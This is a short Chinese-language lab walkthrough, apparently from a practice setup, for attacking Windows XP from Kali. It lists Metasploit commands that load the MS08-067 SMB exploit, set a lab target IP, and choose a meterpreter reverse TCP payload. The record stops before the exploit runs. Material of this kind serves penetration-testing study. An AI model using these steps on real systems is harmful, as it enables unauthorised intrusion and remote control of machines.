 ## Kali攻擊XP

<service postgresql start>先導入攻擊資料庫

<msfconsole>開啟攻擊面板
  
<use windows/smb/ms08_067_netapi>使用的漏洞

<show options>檢查設定
  
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

<set RHOSTS 10.0.2.5>設定欲攻擊的IP

<check>檢查是否有導入
 
<set payload windows/meterpreter/reverse_tcp>

<show options>
